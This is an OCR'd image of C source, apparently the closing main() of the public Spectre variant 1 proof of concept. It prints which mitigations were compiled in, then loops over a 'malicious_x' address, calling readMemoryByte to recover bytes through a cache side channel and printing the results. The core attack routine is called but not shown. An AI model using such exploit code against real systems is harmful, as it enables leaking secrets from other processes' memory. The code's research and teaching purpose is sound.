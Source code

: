 ``` c
    printf("MFENCE_SUPPORTED ");
  #else
    printf("MFENCE_NOT_SUPPORTED ");
  #endif
  #ifndef NOCLFLUSH
    printf("CLFLUSH_SUPPORTED ");
  #else
    printf("CLFLUSH_NOT_SUPPORTED ");
  #endif
  #ifdef INTEL_MITIGATION
    printf("INTEL_MITIGATION_ENABLED ");
  #else
    printf("INTEL_MITIGATION_DISABLED ");
  #endif
  #ifdef LINUX_KERNEL_MITIGATION
    printf("LINUX_KERNEL_MITIGATION_ENABLED ");
  #else
    printf("LINUX_KERNEL_MITIGATION_DISABLED ");
  #endif

  printf("\n");

  printf("Reading %d bytes:\n", len);

  /* Start the read loop to read each address */
  while (--len >= 0) {
    printf("Reading at malicious_x = %p... ", (void * ) malicious_x);

    /* Call readMemoryByte with the required cache hit threshold and
       malicious x address. value and score are arrays that are
       populated with the results.
    */
    readMemoryByte(cache_hit_threshold, malicious_x++, value, score);

    /* Display the results */
    printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
    printf("0x%02X=’%c’ score=%d ", value[0],
      (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
    
    if (score[1] > 0) {
      printf("(second best: 0x%02X=’%c’ score=%d)", value[1],
      (value[1] > 31 && value[1] < 127 ? value[1] : '?'), score[1]);
    }

    printf("\n");
  }
  return (0);
}
```


